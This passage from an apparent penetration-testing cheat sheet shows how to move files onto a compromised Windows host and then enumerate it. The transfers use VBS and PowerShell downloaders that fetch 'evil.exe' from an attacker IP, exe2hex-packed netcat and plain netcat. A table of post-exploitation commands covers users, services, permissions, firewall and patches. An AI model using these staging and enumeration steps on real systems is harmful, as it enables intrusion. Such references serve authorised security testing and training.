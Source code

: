 ```
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```
* Then start server using: python -m SimpleHTTPServer 80
* Then execute on Windows: cscript wget.vbs http://192.168.119.223/evil.exe evil.exe

### Transfer file from Kali to Windows using Powershell:
```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.119.223/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1 

Then execute wget.ps1 on Windows
```

### Transfering file to Windows via exe2hex
1. Execute this command to reduce size: ```upx -9 nc.exe```
2. Execute this command to create a hex version of the exe: ```exe2hex -x nc.exe -p nc.cmd```
3. Copy the contents to the clipboard: ```cat nc.cmd | xclip -selection clipboard```
4. Paste in Windows shell to create EXE.

### Transfer files with netcat:
* On the receiving end
```nc -l -p 1234 > out.file```

* On the sending end running,
```nc -w 3 [destination] 1234 < out.file```

## Enumeration
### Enumeration Commands for Windows
Description | Command
------------ | -------------
| List users |  									net users |
| System version and architecture | 				systeminfo \| findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix" |
| Other info | 										systeminfo |
| Running processes and services | 					tasklist /SVC |
| Running processes and services w powershell | 	Get-WmiObject win32_service \| Select-Object Name, State, PathName \| Where-Object {$_.State -like 'Running'}  |
| Fix truncated | 									C:\Users\Bethany>powershell -Command "Get-WmiObject win32_service \| ?{$_.Name -like '*WinDef*'} \| select Name, State, PathName \| Format-Table -AutoSize" |
| Enumerate permissions of a process | 				icacls "C:\Program Files\Serviio\bin\ServiioService.exe" |
| Network config | 									ipconfig /all |
| Routing tables | 									route print |
| Active network connections | 						netstat -ano |
| Firewall status | 								netsh advfirewall show currentprofile |
| Firewall rules | 									netsh advfirewall firewall show rule name=all |
| Scheduled tasks | 								schtasks /query /fo LIST /v |
| Installed applications and versions | 			wmic product get name,version,vendor |
| Windows Patch Level | 							wmic qfe get Caption, Description, HotFixID, InstalledOn |
| Find folders you have access to | 				accesschk.exe -uws "Everyone" "C:\Program Files" |
| Same as above, with powershell only | 			Get-ChildItem "C:\Program Files" -Recurse | Get-ACL \| ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"} |
| Unmounted drives | 							mountvol |
| Device drivers and kernel modules | 				(From powershell) driverquery.exe /v /fo csv \| ConvertFrom-CSV \| Select-Object 'Display Name', 'Start Mode', Path |
| Drivers | 										driverquery /v |
```